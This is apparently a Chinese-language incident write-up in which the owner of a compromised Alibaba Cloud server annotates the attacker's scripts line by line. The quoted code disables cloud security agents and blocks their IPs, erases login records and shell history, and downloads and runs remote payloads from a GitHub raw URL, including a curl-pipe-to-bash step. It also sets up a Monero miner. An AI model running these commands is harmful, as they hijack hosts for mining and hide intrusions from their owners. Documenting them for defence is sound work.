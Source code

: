 # 记上次黑客入侵阿里云主机，并分析其代码行为。

已将问题反馈到阿里云安全团队客服，并向阿里云中心举报其地址。接下来是代码分析。

## xz.sh部分，即卸载脚本

参考信息源：

* [bili_62374023667-linux下ETH转发服务器+ETH抽水教程，支持SSL加密+删除阿狸监控避免上报](https://www.bilibili.com/read/cv15054271/)
* [csdn-linux+agent卸载_华为云服务器卸载agent监控服务Linux+windows教程](https://blog.csdn.net/weixin_33148621/article/details/113900993)
* [CentOS服务器清除用户登录记录和命令历史方法](https://blog.csdn.net/cljdsc/article/details/123358983)
* [Linux基础：history命令](https://blog.51cto.com/skypegnu1/1941153)

黑客核心代码解读

```
# 首先是下载阿里云盾卸载脚本
wget http://update.aegis.aliyun.com/download/uninstall.sh
chmod +x uninstall.sh && ./uninstall.sh
# 然后屏蔽掉云盾IP
iptables -I INPUT -s 140.205.201.0/28 -j DROP
# 进行恶意卸载云盾等其他组件服务
sh /usr/local/qcloud/stargate/admin/uninstall.sh
# 还把监控都给停止了
service telescoped stop
# 清除系统登录成功命令历史记录
echo > /var/log/wtmp 
# 清除登陆系统失败的记录
echo > /var/log/btmp
# 导入空记录，清除历史执行命令
echo > .bash_history
# 清除历史执行命令并保存。
history -c && history -w
# 删掉脚本
rm -rf cd /root/uninstall.sh
```

## k.sh，即杀死进程脚本

参考信息源：

* [Shell 文件或目录操作符（-e、-d、-f、-r、-w、-x）](https://blog.csdn.net/zz00008888/article/details/122360612)

黑客核心代码解读

```
# 结束dos26（可能为ddos）
killall -9 dos26
# 结束不明程序（命名不知其意）
killall -9 tfq
# 结束挖矿程序
killall -9 xmrig
# 删除程序
rm -rf cd /tmp/dos26
rm -rf cd /tmp/tfq
rm -rf cd /tmp/xmrig
# 判断对象是否有可写(Write)权限，是则为真
if [ ! -w "/tmp/dos64" ]; then
# 进入目录，下载恶意dos，赋予读写及执行权限，并执行
    cd /tmp;wget https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/dos64;chmod 777 dos64;./dos64
fi
if [ ! -w "/root/c3pool/xmrig" ]; then
# 下载恶意靶机脚本执行
    curl -s -L https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/ba.sh | bash -s
fi
# 又一次删除程序
rm -rf cd /tmp/dos26
rm -rf cd /tmp/tfq
rm -rf cd /tmp/xmrig
# 休眠，删掉挖矿记录文件
sleep 88;rm -rf cd /root/c3pool
```

## bk.sh，推测是靶机脚本

### if语句检测环境内容

参考信息源：

* [百度知道-Linux shell 脚本 $(id -u) 是什么意思？](https://zhidao.baidu.com/question/944658594109817212.html)
* [bbsmax-shell if判断中常用的a-z表达式含义](https://www.bbsmax.com/A/8Bz81Qa6Jx/)
* [linux 环境变量设置 -d,Linux环境变量的设置](https://blog.csdn.net/weixin_35565522/article/details/116774198)
* [Shell中的exit 0 和 exit 1是做什么的?](https://www.pianshen.com/article/37962128580/)
* [博客园-shell中的type命令](https://www.cnblogs.com/chaoguo1234/p/5723531.html)

```
#-----
# 判断是不是root权限
if [ "$(id -u)" == "0" ]; then
  echo ""
fi
#----
# 这部分是判断环境配置准备

# “-z 长度为零则为真”，做一个逆向判断，就是找不到这个目录，打印"请将home环境定义到主目录"。 
if [ -z $HOME ]; then
  echo "ERROR: Please define HOME environment variable to your home directory"
# 异常退出，debug检测的。
  exit 1
fi
# 检查是否有家目录，没有则提示导入，引入家目录环境变量
if [ ! -d $HOME ]; then
  echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"
  echo 'export HOME=<dir>'
  exit 1
fi
```

### if curl、lscpu、 ! sudo -n true

```
if ! type curl >/dev/null; then
  echo "ERROR: This script requires \"curl\" utility to work correctly"
  exit 1
fi
if ! type lscpu >/dev/null; then
  echo "WARNING: This script requires \"lscpu\" utility to work correctly"
fi

if ! sudo -n true 2>/dev/null; then
  if ! pidof systemd >/dev/null; then
    echo "ERROR: This script requires systemd to work correctly"
    exit 1
  fi
```

### echo信息

echo部分为英语，我用翻译及个人有限功底理解其代码。第一行，中二教言语，忽略；从第二行开始翻译解读。

```
# 这部分是配置准备，以及调试
## 请将home环境定义到主目录。 
echo "ERROR: Please define HOME environment variable to your home directory"
## 请确保home环境已设置 
echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"

# 从这行的上部分代码推测实在挖矿了， 无法计算比特币什么的
## 错误：无法计算预计的门罗币 CN 哈希率 
echo "ERROR: Can't compute projected Monero CN hashrate"
## 报错，无法计算端口，输出错误端口
echo "ERROR: Can't compute port"
echo "ERROR: Wrong computed port value: $PORT"

# 进一步的恶意操控挖矿
## 下载与后台运行Monero CPU矿机/主机
echo "I will download, setup and run in background Monero CPU miner."
## 如果需要，前台的矿工可以通过$HOME/c3pool/miner.sh脚本启动。 
echo "If needed, miner in foreground can be started by $HOME/c3pool/miner.sh script."
# 挖矿将发生在 $WALLET 钱包上。这句话打印出来，就说明之前所有暗箱操作全完成了。
echo "Mining will happen to $WALLET wallet."
# 删掉挖矿的目录
echo "[*] Removing $HOME/c3pool directory"
```

